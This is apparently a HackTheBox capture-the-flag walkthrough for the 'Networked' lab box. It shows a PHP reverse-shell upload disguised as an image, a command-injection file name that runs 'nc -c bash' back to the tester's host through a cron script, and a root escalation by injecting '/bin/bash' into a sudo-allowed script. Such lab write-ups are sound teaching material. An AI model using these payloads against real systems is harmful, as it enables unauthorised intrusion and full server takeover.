


# HackTheBox
------------------------------------
### IP: 10.129.141.31
### Name: Networked
### Difficulty: Easy
--------------------------------------------


I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Networked]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.129.141.31 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-01 13:33 CDT
Nmap scan report for 10.129.141.31
Host is up (0.072s latency).
Not shown: 65513 filtered tcp ports (no-response), 19 filtered tcp ports (host-prohibited)
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2275d7a74f81a7af5266e52744b1015b (RSA)
|   256 2d6328fca299c7d435b9459a4b38f9c8 (ECDSA)
|_  256 73cda05b84107da71c7c611df554cfc4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.53 seconds
```

Looking at the site we find a plain html page with:

```
Hello mate, we're building the new FaceMash!
Help by funding us and be the new Tyler&Cameron!
Join us at the pool party this Sat to get a glimpse 
```

Looking at the page source we find a comment:


Trying to navigate to `/upload` and `/gallery` these pages dont exist.

We can however add.php and access a file upload feature at `/upload.php`


We can kick off some directory scanning which yields some interesting results:



Looking at `/backup` we find a tar file:


We can extract the contents of the tarball with:

```
┌──(ryan㉿kali)-[~/HTB/Networked]
└─$ tar -xf backup.tar   
```
This extracts 4 php files:

```
┌──(ryan㉿kali)-[~/HTB/Networked]
└─$ ls -la *.php
-rw-r--r-- 1 ryan ryan  229 Jul  9  2019 index.php
-rw-r--r-- 1 ryan ryan 2001 Jul  2  2019 lib.php
-rw-r--r-- 1 ryan ryan 1871 Jul  2  2019 photos.php
-rw-r--r-- 1 ryan ryan 1331 Jul  2  2019 upload.php
```

upload.php is interesting because it lets us know which files types are allowed and where they are stored after uploading:

```php
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;

    $success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name);
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, refresh gallery</p>";
```

Cool lets  try exploiting this.

### Exploitation

Lets grab a copy of PentestMonkey's famous php-reverse-shell.php and copy in the .png magic bytes to the top of the script. I'll then save it as shell.php.png:

```php
GIF89a;
<?php
// <SNIP>

// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.216';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

// <SNIP>
```

I can then upload the file to `/upload.php`

I can confirm my file was successfully loaded in photos.php:


And looking at photos.php from the source code I can see I can access my file at 10.129.141.31/uploads/10_10_14_216.php.png

```php
echo '<td class="tg-0lax">';
echo "uploaded by $check[1]<br>";
echo "";
echo "</td>\n";
```

Navigating to my file I can catch a shell back as apache:

```
bash-4.2$ whoami
apache
bash-4.2$ hostname
networked.htb
```

But am unable to access the user.txt flag:

```
bash-4.2$ cat user.txt
cat: user.txt: Permission denied
```

In guly's  home directory we find a crontab showing a cronjob running a php script every three minutes:

```
bash-4.2$ ls -la
total 28
drwxr-xr-x. 2 guly guly 4096 Sep  6  2022 .
drwxr-xr-x. 3 root root   18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root    9 Sep  7  2022 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly   18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly  193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly  231 Oct 30  2018 .bashrc
-r--r--r--. 1 root root  782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root   44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly   33 Jul  1 20:32 user.txt
bash-4.2$ cat crontab.guly 
*/3 * * * * php /home/guly/check_attack.php
```

But unfortunately we don't have write access to check_attack.php

Lets take a look at it:

```php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
	$msg='';
  if ($value == 'index.html') {
	continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```

This script goes over `/var/www/html/uploads` and filters out specific file types.

But this line is especially interesting:

```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

We should likely be able to get command injection by controlling the `$value` variable.

Lets exploit this by using:

```
bash-4.2$ touch '; nc -c bash 10.10.14.216 7777'
```

In three minutes or less we should have our shell back as guly:

```
┌──(ryan㉿kali)-[~/HTB/Networked]
└─$ nc -lnvp 7777
listening on [any] 7777 ...
connect to [10.10.14.216] from (UNKNOWN) [10.129.141.31] 47528
whoami
guly
hostname
networked.htb
python -c 'import pty;pty.spawn("/bin/bash")'

[guly@networked ~]$ 
```

We can now grab the user.txt flag:


### Privilege Escalation

Running `sudo -l` we see guly can run something called changename.sh with elevated permissions:

```
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

Lets look at the bash script:

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
	echo "interface $var:"
	read x
	while [[ ! $x =~ $regexp ]]; do
		echo "wrong input, try again"
		echo "interface $var:"
		read x
	done
	echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

Looks like we can also try command injection here as well. Lets feed dummy data into the requests while also tying to spawn `/bin/bash` as root:

```
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh              
interface NAME:
hi /bin/bash
interface PROXY_METHOD:
hi
interface BROWSER_ONLY:
hi
interface BOOTPROTO:
hi
[root@networked network-scripts]# whoami
root
```

We can now grab the final flag:



Thanks for following along!

-Ryan

-------------------------------------------------
